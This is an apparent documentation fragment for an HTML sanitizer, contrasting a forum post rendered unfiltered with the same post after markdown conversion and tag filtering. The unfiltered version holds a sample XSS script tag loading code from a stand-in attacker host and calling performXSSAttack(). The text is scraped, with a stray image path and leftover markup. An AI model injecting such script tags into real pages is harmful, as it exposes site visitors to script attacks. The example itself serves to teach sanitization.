 performXSSAttack();



Website renders a forum post without filtering and formatting (unsafe, ugly):
#Welcome

This is my first post on this **gorgeous** forum.

<script src="http://www.iwillhackyou.com/script.js">
    performXSSAttack();
</script>


Website renders a forum post after translating markdown markupand filtering some dangerous HTML tags and attributes (safe, pretty):
<h1>Welcome</h1>

<p>This is my first post on this <strong>gorgeous</strong> forum.</p>

<p></p>

]]>
</code-block>
</tab>
</tabs>